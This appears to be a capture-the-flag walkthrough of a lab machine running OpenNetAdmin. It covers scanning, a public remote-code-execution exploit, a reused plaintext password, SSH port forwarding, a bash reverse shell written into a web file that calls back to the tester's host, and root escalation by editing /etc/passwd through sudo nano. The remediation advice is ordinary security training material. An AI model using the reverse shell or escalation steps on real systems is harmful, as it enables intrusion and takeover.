

# Enumeration
```bash
Nmap scan report for 10.10.10.171
Host is up (0.077s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.13 seconds
```

## Initial Shell
I did a fuzzing scan with gobuster: </br>
```
gobuster dir --url http://10.10.10.171/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30
```

And got this result: </br>
 </br>
I first started with the /music website and began searching for hints. When I clicked the 'login' button in
the navbar, I was redirected to some interesting webpage. </br>
 </br>
 </br>
I searched for an exploit for this version (OpenNetAdmin v18.1.1) and found one on [GitHub](https://github.com/amriunix/ona-rce) </br>
 </br>
It worked but the shell I got was somewhat limited, I could not use ```cd``` and move from my working
directory, but I could read and access files that were outside my working directory: </br>
 </br>
So I started to enumerate the machine first from within my working directory, and I found out MySQL
database login credentials: </br>
 </br>
 </br>
Since logging into the database didn't seem to work, and SSH port was open, I checked for the users in
this machine: </br>
 </br>
And I tried using the database credentials for 'jimmy' user (n1nj4W4rri0R!), and it worked: </br>
 </br>
I ran an enumeration script (LinPEAS), and found this: </br>
 </br>
Since my user could not run sudo, I figured that I should somehow get access to ```joanna``` user. I also saw
this: </br>
 </br>
It shows a listener on 127.0.0.1:52846, and since it's on localhost I could not access it. </br>
I figured I had to do 'port forwarding' , one of the easy ways of doing so is by relying on SSH, The tester
needs to open an SSH connection to the machine that should be turned into a SOCKS proxy. </br>
```ssh -L local_port:destination_server_ip:remote_port ssh_server_hostname``` -> The original command. </br>
```ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171``` -> The modified command. </br>
Password: ```n1nj4W4rri0R!``` </br>
I got inside the website: </br>
 </br>
I tried reusing jimmy's credentials but it didn’t work, but after some enumeration, I found the internal
website directory: </br>
 </br>
And inside, I could find the correct credentials: </br>
 </br>
I decrypted the hashed password, and it worked: </br>
 </br>
 </br>
There I could see what seemed to be an RSA private key, I tried connecting through SSH using this key,
but it asked for a passphrase. </br>
I tried using a variety of passwords, including jimmy's password and other variations of it (according to
the 'Don't forget your "ninja" password' hint), but nothing seemed to work. </br>
I figured that I was able to edit the main.php file, and I set up a reverse shell: </br>
 </br>
Reverse Shell command: </br>
```exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.18/1234 0>&1'");```</br> </br>

**Vulnerability Exploited:** </br>
OpenNetAdmin v18.1.1 Exploit & Sensitive Data Exposure & Port-Forwarding. </br>
**Vulnerability Explanation:** </br>
**OpenNetAdmin** is a Network Management application that provides a database of managed inventory of
IPs, subnets, and hosts in a network with a centralized AJAX web interface.
The vulnerability found in v18.1.1 allows for a code execution that leads to a full compromise of the
hosting machine. </br>
**Sensitive Data Exposure:** Sensitive data is any information that is meant to be protected from
unauthorized access, Sensitive data can include anything from personally identifiable information, to
banking information, to login credentials.
When this data is accessed by an attacker as a result of a data breach, users are at risk for sensitive data
exposure. </br>
**Port-Forwarding:** Port forwarding allows remote servers and devices on the internet to access the
devices that are within your private local-area network (LAN) and vice versa. Without port forwarding,
only devices that are part of the internal network can access each other, and with port forwarding, anyone
can. Giving access or accessing unsafe ports can be risky, as threat actors and other people with malicious
intentions can get access to where the port is pointed to. In this case, a website containing sensitive
information. </br>
**Vulnerability Fix:** </br>
**OpenNetAdmin:** Upgrade to latest version. </br>
**Sensitive Data Exposure:** </br>
- Classify data processed, stored or transmitted by an application. Identify which data is sensitive
according to privacy laws, regulatory requirements, or business needs. </br>
- Don’t store sensitive data unnecessarily. </br>
- Make sure to encrypt all sensitive data at rest. </br>
- Ensure up-to-date and strong standard algorithms, protocols, and keys are in place; use proper key
management. </br>
- Store passwords using strong adaptive and salted hashing functions with a work factor.
Port-Forwarding: Port forwarding with open ports is a risk. You need to set it up correctly to reduce and
eliminate risk, otherwise, you are opening your network to malicious attacks that can be successful. It’s
best not to port forward and keep ports closed. </br> </br>
**Proof Of Screenshot:** </br>
 </br>
# Privilege Escalation
I tried running ```sudo -l``` , but got this error: </br>
 </br>
I assumed that maybe logging in through ssh will solve this problem, so I generated new SSH keys, with
no passphrase using this command: ```ssh-keygen -t rsa``` </br>
I copied the rsa_id.pub contents to an authorized_keys file, and the private key to my Kali machine. </br>
I then tried to connect from my Kali Machine with the command: </br>
```ssh -i id_rsa joanna@10.10.10.171``` 
</br>

And it worked: </br>
 </br>
I tried running ```sudo -l``` again, and it worked: </br>
 </br>
I could use nano file editor to edit /opt/priv, priv is an empty file owned by root who only had read access: </br>
 </br>
My plan was to copy the contents of ```/etc/passwd``` file - add a new user there with root privileges and
overwrite the original ```/etc/passwd``` file with the modified one. </br>
I edited the file with this command: ```sudo /bin/nano /opt/priv``` , I created a new user called 'tal',
and used 'openssl' to set the password: </br>
 </br>
I edited the file and included this password: </br>
 </br>
And switched to the new user with the command: ```su tal``` </br> </br>
**Vulnerability Exploited:** ‘nano’ editor runs as sudo. </br>
**Vulnerability Explanation:** If the binary is allowed to run as superuser by sudo, it does not drop the
elevated privileges and may be used to access the file system, escalate or maintain privileged access. </br>
**Vulnerability Fix:** Do not let a low-privileged user run binaries as sudo. </br> </br>
**Proof Of Screenshot:** </br>
 </br>

